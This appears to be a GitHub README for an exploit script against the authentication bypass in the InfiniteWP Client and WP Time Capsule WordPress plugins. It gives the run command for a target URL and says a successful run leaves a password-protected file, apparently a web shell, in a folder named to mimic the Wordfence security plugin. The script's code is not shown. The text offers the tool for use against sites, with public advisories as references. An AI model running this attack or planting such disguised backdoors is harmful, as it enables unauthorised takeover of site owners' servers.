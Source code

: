 # Critical Auth Bypass Vulnerability In InfiniteWP Client And WP Time Capsule

How run : python2 iWP.py http://target.com/
<br>if uploaded check in /wp-content/plugins/wordfences/wp.php <- password root

Refference:
- https://www.webarxsecurity.com/vulnerability-infinitewp-client-wp-time-capsule/
- https://wpvulndb.com/vulnerabilities/10011
- https://www.wordfence.com/blog/2020/01/critical-authentication-bypass-vulnerability-in-infinitewp-client-plugin/
